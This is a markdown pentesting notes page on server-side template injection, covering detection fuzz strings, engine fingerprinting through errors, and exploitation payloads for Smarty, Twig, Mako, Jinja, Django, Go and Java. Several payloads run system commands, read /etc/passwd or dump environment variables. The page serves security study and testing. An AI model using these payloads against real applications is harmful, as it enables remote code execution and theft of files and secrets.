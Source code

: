 # SSTI
 ## Detection
You can follow a similar approach when looking for template / expression language injections to the one you use when testing an application for stored XSS vulnerabilities - injecting a payload and looking for occurrences of it within the application

> If you are a user of Burp Suite Pro, you should get an extension named J2EE Scan which automatically adds tests for expression language injection

- Try  fuzzing Templating special charchters and see if any exception is raised 
	```
	${{<%[%'"}}%\
	${}
	{{}}
	<%= %>
	${7/0}
	{{7/0}}
	<%= 7/0 %>
	${foobar}
	{{foobar}}
	<%= foobar %>
	${7/0}
	{{7/0}}
	```

- Try to check if it contains a direct XSS vulnerability. Try injecting arbitrary HTML.
	```
	http://vulnerable-website.com/?greeting=data.username<tag>
	```
	In the absence of XSS, this will usually either result in a blank entry in the output (just Hello with no username), encoded tags, or an error message. 
	
- Try and break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it
	```
	http://vulnerable-website.com/?greeting=data.username}}<tag>
	```
if the output is rendered correctly, along with the arbitrary HTML, this is a key indication that a server-side template injection vulnerability is present:
	
## Identify Technology
To better identify the technology, you can first:
- Observe which is the generic technology of the application. If it is java (e.g., you see it uses .jsp extensions), then you can suspect it is an expression language / OGNL.
- Use this diagram as it contains popular behavior of template engines when handling expressions.
![Pasted image 20210602032331.png](/Screenshots/Pasted%20image%2020210602032331.png)
- Try to inject unclosed curly braces (be careful as there is a chance you might permanently disable the attacked webpage); this might provoke verbose error disclosing the underlying technology.
- Observe other verbose errors for technology names.
- If you suspect a specific technology, Check documentation for functions specific to that technology such as PHP Twig. Php Twig Can be confirmed by
```php
{{_self.env.display("xyz")}}
```

Another Methodology is:
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. As a result, it can be relatively simple to create probing payloads to test which template engine is being used.

Simply submitting invalid syntax is often enough because the resulting error message will tell you exactly what the template engine is, and sometimes even which version.

For example, the invalid expression `<%=foobar%>` triggers the following response from the Ruby-based ERB engine:

```ruby
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'
```


## Exploitation



## Exploiting Technology Specific SSTIs
### PHP
#### Smarty
```php
{php}echo `id`;{/php}
```

#### Twig
```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_s
elf.env.getFilter("whoami")}}
```

### Python
#### Maki
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

#### Jinja
```pyhon
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

#### Django
Explore the enviorment with
```python
{% debug %}
```

#### GO'S TEMPLATE ENGINE 
```go
// return the data structure passed into the template
{{ . }}
{{ self }}
```
### Read about the security implications in documentation
In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section. The name of this section will vary, but it will usually outline all the potentially dangerous things that people should avoid doing with the template. This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them.

Even if there is no dedicated "Security" section, if a particular built-in object or function can pose a security risk, there is almost always a warning of some kind in the documentation. The warning may not provide much detail, but at the very least it should flag this particular built-in as something to investigate.

### Explore enviroment objects
At this point, you might have already stumbled across a workable exploit using the documentation. If not, the next step is to explore the environment and try to discover all the objects to which you have access.

Many template engines expose a "self" or "environment" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine. If such an object exists, you can potentially use it to generate a list of objects that are in scope. For example, in Java-based templating languages, you can sometimes list all variables in the environment using the following injection:

```java
${T(java.lang.System).getenv()}
```

### Developer-supplied objects
Websites will contain both built-in objects provided by the template and custom, site-specific objects that have been supplied by the web developer. Pay particular attention to these non-standard objects because they are especially likely to contain sensitive information or exploitable methods. As these objects can vary between different templates within the same website, be aware that you might need to study an object's behavior in the context of each distinct template before you find a way to exploit it.

